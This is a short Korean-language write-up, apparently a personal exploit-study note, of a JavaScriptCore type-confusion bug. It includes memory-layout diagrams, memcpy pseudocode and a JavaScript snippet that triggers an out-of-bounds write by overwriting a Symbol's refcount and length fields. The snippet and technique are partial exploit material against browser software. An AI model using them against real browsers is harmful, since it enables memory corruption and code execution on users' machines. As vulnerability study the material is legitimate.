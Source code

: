 원래 진행중인 코드에서는 위의 메모리 레이아웃와 같이 단순화 된 butterfly 포인터가 필요하다.

```
                    +0       +4     +8
+-----------------------------------------------+
|       OOB        |refcount|length|str base ptr|
+-----------------------------------------------+
                   ^
+--------------+   |
|SymbolImpl ptr+---+
+--------------+

```

하지만 우리는 다음과 같은 메모리 맵이 존재한다.

```
def appendMemcpy(dst, src):
    if allocated_size(dst) < sizeof(dst) + sizeof(src):
        resize(dst)

    memcpy(dst + sizeof(dst), src, sizeof(src));

```

일반적인 butterfly 경우엔 butterfly 포인터에서 -4 에서 -8 에 있는 `public length` 와 `lenght` 를 체크한다. 하지만 `type confused` 된 심볼의 경우엔 array 의 범위를 초과해 oob 를 유발할 수 있다. 이제 oob 를 통해 메모리를 컨트롤 해보자.

```
  OOB    OOB
+------------------------------------------+
|0xffff|0xffff|refcount|length|str base ptr|
+------------------------------------------+
              ^
        +---+ |
        |ptr+-+
        +---+

```

In this case, resize in our pseudocode or ensureLength ([4]) in the actual code will not trigger a reallocation and object move, resulting in a direct memcpy on top of refcount and length. 암튼 lenght 필드를 덮어서 oob 트리거 만드수가 있다고 하는디 ..

```
let x = Symbol("AAAA");

let y = [];
y.push(new Int64('0x000042420000ffff').asDouble());

busted_concat(x, y, 0);

```

다음과 같이 oob 트리거를 구현해 봤다. 이제 x 의 심볼 테이블을 한번 까보면. 여기서 Int64 함수는 [모듈](https://github.com/saelo/jscpwn/blob/master/int64.js) 써서 구현하였음.
